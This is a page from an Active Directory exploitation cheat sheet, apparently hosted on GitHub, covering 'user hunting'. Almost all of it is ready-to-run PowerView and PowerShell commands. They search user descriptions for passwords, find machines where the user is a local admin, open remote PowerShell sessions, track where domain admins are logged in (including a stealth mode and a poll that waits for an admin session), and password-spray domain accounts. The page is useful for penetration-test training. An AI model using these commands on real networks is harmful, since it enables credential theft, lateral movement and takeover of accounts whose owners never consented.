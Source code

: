 ## USER HUNTING

---
#### HUNTING JUICY NOTE
```powershell
Find-UserField -SearchField Description -SearchTerm "pass"
Find-UserField -SearchField Description -SearchTerm "admin"
Find-UserField -SearchField Description -SearchTerm "manage"
...
```

---
#### HUNTING ADMIN ACCESS
- Find all machines on the current domain where the current user has local admin access (Get-NetComputer + Invoke-CheckLocalAdminAccess)
```powershell
Find-LocalAdminAccess -Verbose
```

---
#### HUNTING PSREMOTE ACCESS
- Find Administrative access
```powershell
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
# No Stateful
Enter-PSSession -ComputerName targetcomputer.target.domain.local
# Stateful
$sess = New-Pssession -ComputerName targetcomputer.target.domain.local
Enter-Pssession -session $sess
```

---
#### HUNTING WMI ACCESS
- If RPC and SMB are blocked check with WMI
```powershell
. .\Find-WMILocalAdminAccess.ps1
```

---
#### HUNTING ADMIN
- Find local admins on all machines of the domain (Get-NetComputer+Get-
NetLocalGroup)
```powershell
Invoke-EnumerateLocalAdmin -Verbose
```

---
#### HUNTING SESSION
- Find computers where a domain admin (or specified user/group) has sessions
```powershell
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
```
- Confirm admin access
```powershell
Invoke-UserHunter -CheckAccess
```

---
#### HUNTING DOMAIN ADMIN
- Find computers where a domain admin is logged-in ( Get-NetSession / Get-NetLoggedon )
```powershell
Invoke-UserHunter -Stealth
```
- WAIT FOR INCOMING SESSINON
```powershell
Invoke-UserHunter -ComputerName targetserver -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

---
#### PASSWORD SPRAYING
```powershell
# CHECK POLICY AND CARE TO NOT LOCK ACCOUNTS
(Get-DomainPolicy)."system access"
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
:warning: CHECK POLICY AND CARE TO NOT LOCK ACCOUNTS<br />
:warning: VERY NOISY

| Setting Key | Explaination |
|-|-|
| LockoutDuration | The number of minutes that a locked-out account MUST remain locked out before automatically becoming unlocked.<br />-1 = MUST be unclock by admin<br />other = number of minutes|
| LockoutBadCount | Number of failed logon attempts after which a user account MUST be locked out. |
| ResetLockoutCount | Number of minutes after a failed logon attempt that the account MUST be locked out |

#### PWDLASTSET
- Use this command to see the last password set of each user in the current domain
```powershell
Get-UserProperty -Properties pwdlastset
```

---
[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)